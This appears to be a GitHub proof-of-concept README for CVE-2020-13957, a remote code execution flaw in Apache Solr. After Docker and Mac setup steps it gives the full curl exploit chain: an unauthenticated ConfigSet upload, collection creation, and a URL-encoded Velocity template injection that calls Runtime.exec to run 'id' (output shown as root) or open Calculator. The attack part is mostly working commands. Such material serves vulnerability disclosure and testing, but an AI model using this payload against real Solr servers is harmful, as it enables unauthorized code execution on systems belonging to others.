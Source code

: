# Apache Solr RCE CVE-2020-13957

**Docker Demo**

![docker-demo](https://user-images.githubusercontent.com/56715563/100495824-8cabfd00-3192-11eb-9874-960e3c0839fb.gif)

**Mac Demo**

![mac-demo](https://user-images.githubusercontent.com/56715563/100495858-d3015c00-3192-11eb-8813-46f94fa4f9c4.gif)

## NVD CVE-2020-13957 Description

NVD [CVE-2020-13957](https://nvd.nist.gov/vuln/detail/CVE-2020-13957)

```
Apache Solr versions 6.6.0 to 6.6.6, 7.0.0 to 7.7.3 and 8.0.0 to 8.6.2 prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.
```

## Docker

### Set up PoC environment

**1. Build an image from a Dockerfile**

```
$ docker build -t cve-2020-13957 .
```

**2. Run /bin/bash in a new container**

```
$ docker run --rm -p 8983:8983 --name cve-2020-13957 -it cve-2020-13957 /bin/bash
```

**3. Start Apache Solr Cloud in the container**

```
$ ./solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Exec Id Command**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27id%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

**Output**

```
     0  uid=0(root) gid=0(root) groups=0(root)
```

## Mac

## Set up PoC environment

**1. Download Apache Solr**

```
$ curl -OL https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz
```

**2. Unzip**

```
$ tar -xzvf solr-8.2.0.tgz
```

**3. Start Apache Solr Cloud**

```
$ solr-8.2.0/bin/solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Open Calc**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27open+-a+calculator%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

## References

- https://github.com/Imanfeng/Apache-Solr-RCE#cve-2020-13957

- https://github.com/MagicPiperSec/xray-poc-cve-2020-13957
